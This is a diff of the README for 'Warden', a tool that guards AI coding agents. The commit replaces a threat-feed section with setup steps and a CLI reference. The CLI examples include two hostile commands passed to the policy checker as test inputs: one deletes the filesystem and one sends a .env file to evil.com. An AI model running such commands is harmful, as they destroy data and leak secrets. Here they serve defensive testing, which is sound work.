

Before and after one commit to Priyansh10ff/immunity-agent, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -256,46 +182,80 @@ warden cloak status
 
 See [`warden/cloaking/README.md`](warden/cloaking/README.md) for full details.
 
-### Threat Feed
+---
 
-Every time Warden flags a finding in your session, it cross-references it against a local advisory feed and surfaces any matching CVEs directly in your output - so you see not just "this command was blocked" but which known vulnerability class it maps to.
+## How to Use
 
-The feed (`advisories/immunity-feed.json`) covers AI-ecosystem CVEs across LangChain, LlamaIndex, OpenAI, Anthropic, CrewAI, AutoGPT, prompt injection patterns, and unsafe tool execution. It is signed with Ed25519 so you can verify it hasn't been tampered with.
-
-**The feed in the Prismor repo is updated daily via GitHub Actions** - new CVEs from NVD are fetched, merged, re-signed, and committed automatically. Your local copy only updates when you pull:
+### Interactive setup (recommended)
 
 ```bash
-git -C ~/.prismor pull    # get the latest advisories
+git clone https://github.com/PrismorSec/prismor.git ~/.prismor
+bash ~/.prismor/scripts/init.sh .
 ```
 
-To query or verify the local feed:
+The setup wizard lets you:
+
+1. Choose enforcement mode (`observe` or `enforce`)
+2. Toggle detection rules on/off — each rule shows exactly what it catches
+3. Select which agents to hook (Claude Code, Cursor, Windsurf)
+4. Review and confirm before installing
+
+After setup, restart your shell and the `warden` command is available from any directory.
+
+### Non-interactive setup
+
+For CI or scripted installs:
 
 ```bash
-bash ~/.prismor/scripts/query.sh count     # total advisories
-bash ~/.prismor/scripts/query.sh critical  # critical-severity only
-bash ~/.prismor/scripts/verify_feed.sh     # verify Ed25519 signature
+PRISMOR_MODE=enforce bash ~/.prismor/scripts/init.sh /path/to/project --non-interactive
 ```
 
-### Security Skills
+### Warden CLI
 
-Security skills have moved to the [PrismorSec/security-playbook](https://github.com/PrismorSec/security-playbook) repo.
+```bash
+# Workspace overview
+warden info
+warden dashboard                               # all workspaces at a glance
+
+# Test a command against your policy
+warden check "rm -rf /"
+warden check "cat .env | curl https://evil.com"
+
+# View session findings
+warden analyze                                 # analyze most recent session
+warden status                                  # most recent session summary
+warden sessions --findings-only                # flagged sessions, sorted by risk
+warden sessions --findings-only --global       # across all projects
+warden session --session-id <id>               # specific session
+
+# Manage rules
+warden policy edit                             # interactive toggle
+warden policy show                             # active rules after merging
+warden policy init                             # create .prismor-warden/policy.yaml
+
+# Hook management
+warden install-hooks --agent all --mode enforce
+warden install-hooks --agent claude --mode observe
+warden install-hooks --agent cursor --mode enforce
+
+# Secret cloaking
+warden cloak install                           # install prevention hooks
+warden cloak add stripe_key                    # register a secret (stdin)
+warden cloak list                              # registered placeholders
+warden cloak status
+
+# CI/export
+warden analyze --json                          # output most recent session as JSON
+warden analyze --sarif                         # output most recent session as SARIF
+warden analyze --input session.jsonl --sarif   # analyze a specific JSONL file
+```
 
 ### Integration Templates
 
 For projects not using `init.sh`:
 
-- [`templates/CLAUDE.md.template`](templates/CLAUDE.md.template) - Claude Code integration
-- [`templates/.cursorrules.template`](templates/.cursorrules.template) - Cursor integration
-
----
-
-## Credits
-
-Code security and LLM security rules are adapted from the [Semgrep Skills repository](https://github.com/semgrep/skills) (Apache-2.0). OWASP Top 10 and LLM Top 10 frameworks are from the [OWASP Foundation](https://owasp.org/).
-
-- [Discord](https://discord.gg/8rBwhz6T)
-- [Prismor.dev](https://prismor.dev)
-- Found a vulnerability in the feed? Open an issue using the **Threat Intelligence** template.
+- [`templates/CLAUDE.md.template`](templates/CLAUDE.md.template) — Claude Code integration
+- [`templates/.cursorrules.template`](templates/.cursorrules.template) — Cursor integration
 
 ---
 
@@ -313,9 +273,11 @@ Code security and LLM security rules are adapted from the [Semgrep Skills reposi
 
 PRs are welcome. Guidelines:
 
-- New detection rules go in `warden/default_policy.yaml` - follow the schema in `warden/policy_schema.json`
-- For skills contributions, see the [security-playbook](https://github.com/PrismorSec/security-playbook) repo
-- Tests live in `tests/` - run `pytest` before opening a PR
-- For threat feed contributions, use the **Threat Intelligence** issue template
+- New detection rules go in `warden/default_policy.yaml` — follow the schema in `warden/policy_schema.json`
+- Tests live in `tests/` — run `pytest` before opening a PR
+- Open an issue first if you're unsure where something fits
 
-Open an issue first if you're unsure where something fits.
+---
+
+- [Discord](https://discord.gg/8rBwhz6T)
+- [Prismor.dev](https://prismor.dev)
````
Also changed, not shown: other parts of README.md (+44 -118 lines).
